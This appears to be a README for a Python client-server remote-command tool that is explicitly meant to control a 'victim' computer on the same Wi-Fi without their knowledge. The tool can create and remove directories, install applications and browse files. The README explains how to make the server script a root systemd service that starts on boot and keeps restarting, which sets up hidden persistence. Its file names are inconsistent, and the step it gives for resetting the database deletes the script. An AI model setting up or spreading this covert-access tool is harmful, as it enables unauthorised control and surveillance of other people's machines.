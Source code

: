 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


## Requirements

To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

 Windows: `python createDb.py` Linux/Mac: `python3 createDb.py`


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

`client_socket.connect(('192.168.169.117', 12345)) #Example`


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

`python3 create_db.py`

You can delete this and create it again to reset the database.

`rm createDb.py`


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

`sudo nano /etc/systemd/system/server.service`


## 3.2: Add the following content to the file
```
[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.
```

## 3.3: Reload the systemd daemon and start the service:
```
sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
```

## Step 4: Running the Client

Run the command `python3 client.py` on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

`python3 view_db.py`

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
